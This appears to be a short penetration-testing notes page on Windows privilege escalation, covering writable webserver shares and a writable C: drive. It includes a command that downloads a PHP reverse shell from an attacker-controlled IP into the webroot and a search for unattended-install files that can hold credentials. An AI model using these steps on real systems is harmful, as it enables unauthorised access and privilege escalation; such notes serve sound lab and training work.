 

## Other techniques
### Writable webserver shares

Start by checking if the webserver is running as another user, for this we can check if a user like web_svc exists:
```bash
net user
```

If the webroot directory is writable we can add a simple reverse shell to become web_svc:
```bash
PS C:\xampp\htdocs> iwr -uri http://192.168.45.240/shell.php -OutFile shell.php
```
>[!info]
>Webroot depends on server configuration
>- inetpub
>- xampp htdocs
>- ...


### Writable C:\ drive

This can be the result of a successful SeManageVolumeAbuse exploitation or a phpMyAdmin session running as the SYSTEM user:
- SeManageVolume writeup: [[Access]]
- phpMyAdmin writeup: [[Craft2]]


Unattended windows installation:
```bash
dir /s _sysprep.inf_ sysprep.xml _unattended.xml_ unattend.xml *unattended.txt 2>null
```
